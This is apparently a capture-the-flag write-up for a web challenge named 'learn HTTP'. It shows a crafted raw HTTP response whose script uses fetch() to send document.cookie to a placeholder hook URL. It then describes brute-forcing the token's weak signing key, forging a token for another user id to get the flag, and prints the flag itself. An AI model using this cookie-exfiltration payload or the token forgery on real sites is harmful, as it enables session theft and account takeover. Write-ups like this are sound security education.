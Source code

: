 # learn HTTP
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Let's make a perfect HTTP response which will make a simple fetch to hook

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 102

<script>fetch(`[hook]?${document.cookie}`)</script>
```

![hook response](hook.png)

We get the token in the request, after bruting the signing key, we find it as `banana`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{c4nt_s3nd_th3_resP0n53_w1th0ut_Sani7iz1ng}`